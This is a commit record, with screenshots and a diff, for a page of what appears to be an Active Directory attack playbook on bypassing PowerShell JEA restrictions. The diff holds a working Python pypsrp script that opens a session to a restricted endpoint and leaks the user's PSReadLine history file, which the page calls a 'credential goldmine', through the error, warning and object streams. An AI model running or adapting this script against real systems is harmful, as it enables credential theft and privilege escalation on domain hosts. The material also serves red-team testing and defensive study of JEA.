

Before and after one commit to SowatKheang/ad_attack_playbook, an MkDocs documentation site: the page built from docs/07-jea-just-enough-administration-bypass.md, in a window 1280 px wide and 1400 px high, scrolled down 1124 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
add workflow

````diff
--- a/docs/07-jea-just-enough-administration-bypass.md
+++ b/docs/07-jea-just-enough-administration-bypass.md
@@ -40,7 +40,6 @@ Enter-PSSession -ComputerName dc1.domain.local `
 Get-Command
 ```
 
-{% raw %}
 ```python title="Stream-leak bypass via pypsrp"
 # Use pypsrp to test multiple output streams
 from pypsrp.powershell import PowerShell, RunspacePool
@@ -54,23 +53,22 @@ HIST = "C:\\Users\\user\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSRea
 with RunspacePool(wsman, configuration_name='restricted') as pool:
     # Method 1: throw as exception (error stream)
     ps = PowerShell(pool)
-    ps.add_script(f'&{{ $c = Get-Content "{HIST}" -Raw; throw $c }}')
+    ps.add_script('&{ $c = Get-Content "' + HIST + '" -Raw; throw $c }')
     ps.invoke()
     for e in ps.streams.error: print(str(e))
 
     # Method 2: Write-Warning (warning stream - often bypasses filter)
     ps = PowerShell(pool)
-    ps.add_script(f'&{{ $c = Get-Content "{HIST}" -Raw; Write-Warning $c }}')
+    ps.add_script('&{ $c = Get-Content "' + HIST + '" -Raw; Write-Warning $c }')
     ps.invoke()
     for w in ps.streams.warning: print(str(w))
 
     # Method 3: PSCustomObject (object stream)
     ps = PowerShell(pool)
-    ps.add_script(f'&{{ Get-Content "{HIST}" | ForEach-Object {{ [PSCustomObject]@{{Name=$_}} }} }}')
+    ps.add_script('&{ Get-Content "' + HIST + '" | ForEach-Object { [PSCustomObject]@{Name=$_} } }')
     output = ps.invoke()
     for o in output: print(o)
 ```
-{% endraw %}
 
 ```powershell title="PSReadLine history: credential goldmine"
 # Check history file first - contains commands with credentials
````
